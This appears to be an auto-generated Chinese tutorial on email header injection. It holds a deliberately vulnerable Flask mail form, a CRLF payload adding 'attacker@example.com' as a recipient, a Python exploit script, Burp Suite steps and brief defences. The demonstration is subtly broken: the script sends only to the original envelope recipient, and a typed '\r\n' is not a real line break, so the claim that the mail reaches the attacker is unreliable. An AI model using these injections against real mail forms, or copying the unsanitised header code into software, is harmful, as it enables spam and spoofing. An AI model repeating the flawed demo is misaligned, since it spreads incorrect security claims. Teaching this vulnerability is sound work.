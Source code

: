 # 邮件头注入攻击的案例分析

## 1. 技术原理解析

### 1.1 邮件头注入攻击概述
邮件头注入攻击（Email Header Injection）是一种利用Web应用程序中的漏洞，通过注入恶意邮件头信息来控制邮件发送行为的攻击方式。攻击者可以通过在用户输入中插入换行符（`\r\n`）和特定的邮件头字段，来篡改邮件内容、添加收件人、甚至发送垃圾邮件。

### 1.2 底层实现机制
邮件头注入攻击的核心在于邮件头的构造方式。邮件头是由多个字段组成的，每个字段以`<field>: <value>`的形式出现，字段之间通过换行符（`\r\n`）分隔。攻击者通过在用户输入中插入换行符和新的邮件头字段，可以控制邮件的发送行为。

例如，一个正常的邮件头可能如下：
```
From: user@example.com
To: recipient@example.com
Subject: Hello
```

如果攻击者在`Subject`字段中注入换行符和新的邮件头字段，可以篡改邮件内容：
```
Subject: Hello\r\nTo: attacker@example.com
```

这将导致邮件被发送到`attacker@example.com`，而不是预期的`recipient@example.com`。

### 1.3 漏洞成因
邮件头注入漏洞通常出现在以下场景：
- 用户输入未经过滤或转义，直接拼接到邮件头中。
- 应用程序未对换行符进行正确处理，导致攻击者可以插入新的邮件头字段。

## 2. 变种和高级利用技巧

### 2.1 基本变种
- **添加收件人**：通过在`Subject`或`From`字段中注入`To`字段，添加额外的收件人。
- **篡改邮件内容**：通过注入`Subject`或`Body`字段，篡改邮件内容。
- **发送垃圾邮件**：通过注入多个`To`字段，批量发送垃圾邮件。

### 2.2 高级利用技巧
- **绕过过滤**：使用编码或特殊字符绕过输入过滤机制。
- **利用邮件客户端漏洞**：某些邮件客户端在处理邮件头时存在漏洞，攻击者可以利用这些漏洞进行更复杂的攻击。
- **结合其他攻击**：将邮件头注入攻击与其他攻击（如XSS、CSRF）结合，实现更广泛的影响。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
为了模拟邮件头注入攻击，我们需要搭建一个简单的Web应用程序，并配置一个邮件发送服务。

#### 3.1.1 搭建Web应用程序
使用Python Flask框架搭建一个简单的Web应用程序，代码如下：
```python
from flask import Flask, request, render_template
import smtplib
from email.mime.text import MIMEText

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/send', methods=['POST'])
def send_email():
    from_email = request.form['from_email']
    to_email = request.form['to_email']
    subject = request.form['subject']
    body = request.form['body']

    msg = MIMEText(body)
    msg['From'] = from_email
    msg['To'] = to_email
    msg['Subject'] = subject

    try:
        with smtplib.SMTP('localhost') as server:
            server.sendmail(from_email, [to_email], msg.as_string())
        return 'Email sent successfully!'
    except Exception as e:
        return f'Error: {str(e)}'

if __name__ == '__main__':
    app.run(debug=True)
```

#### 3.1.2 配置邮件发送服务
使用Postfix或Sendmail等邮件服务器软件配置本地邮件发送服务。确保邮件服务器能够接收并发送邮件。

### 3.2 攻击步骤
1. **访问Web应用程序**：打开浏览器，访问搭建的Web应用程序。
2. **输入恶意数据**：在`Subject`字段中输入以下内容：
   ```
   Hello\r\nTo: attacker@example.com
   ```
3. **发送邮件**：点击“发送”按钮，观察邮件是否被发送到`attacker@example.com`。

### 3.3 防御措施
- **输入过滤**：对用户输入进行严格的过滤，禁止输入换行符和特殊字符。
- **输出编码**：在将用户输入拼接到邮件头之前，进行适当的编码或转义。
- **使用安全的邮件库**：使用经过安全审计的邮件库，避免手动拼接邮件头。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Python进行邮件头注入
以下Python代码演示了如何利用邮件头注入漏洞发送恶意邮件：
```python
import smtplib
from email.mime.text import MIMEText

from_email = 'user@example.com'
to_email = 'recipient@example.com'
subject = 'Hello\r\nTo: attacker@example.com'
body = 'This is a test email.'

msg = MIMEText(body)
msg['From'] = from_email
msg['To'] = to_email
msg['Subject'] = subject

try:
    with smtplib.SMTP('localhost') as server:
        server.sendmail(from_email, [to_email], msg.as_string())
    print('Email sent successfully!')
except Exception as e:
    print(f'Error: {str(e)}')
```

### 4.2 使用工具进行邮件头注入
可以使用Burp Suite等工具进行邮件头注入攻击的测试。步骤如下：
1. **拦截请求**：使用Burp Suite拦截Web应用程序发送邮件的请求。
2. **修改请求**：在`Subject`字段中插入恶意数据，如`Hello\r\nTo: attacker@example.com`。
3. **发送请求**：将修改后的请求发送到服务器，观察邮件是否被发送到`attacker@example.com`。

## 5. 总结
邮件头注入攻击是一种常见且危险的Web安全漏洞，攻击者可以通过注入恶意邮件头字段来控制邮件发送行为。通过深入理解其技术原理、掌握各种变种和高级利用技巧，并搭建实验环境进行实战演练，可以有效提升对邮件头注入攻击的防御能力。同时，开发者应遵循安全编码实践，避免在应用程序中引入此类漏洞。

---

*文档生成时间: 2025-03-11 13:58:22*
